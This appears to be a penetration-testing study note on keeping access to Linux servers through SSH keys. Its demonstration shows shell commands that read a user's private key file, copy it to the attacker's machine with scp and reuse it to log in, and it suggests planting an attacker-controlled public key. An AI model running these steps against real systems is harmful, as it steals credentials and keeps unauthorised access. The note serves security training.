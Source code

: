 ```yaml
---
up: "[[Linux Persistence]]"
---
```


# Persistence via SSH Keys

- Linux is usually deployed as a server OS and are typically accessed remotely via services/protocols like SSH
- SSH can be leveraged for persistence
- Transferring the private key of a user to our system and use it to authenticate

## Demonstration

```bash
ssh <user>@<ip>
$ cd ~/.ssh
$ cat id_rsa
# copy the priv key
scp <user>@<ip>:~/.ssh/id_rsa .
chmod 400 id_rsa
ssh -i id_rsa <user>@<ip>
```

Ideally generate a key pair and let the public key on the target system
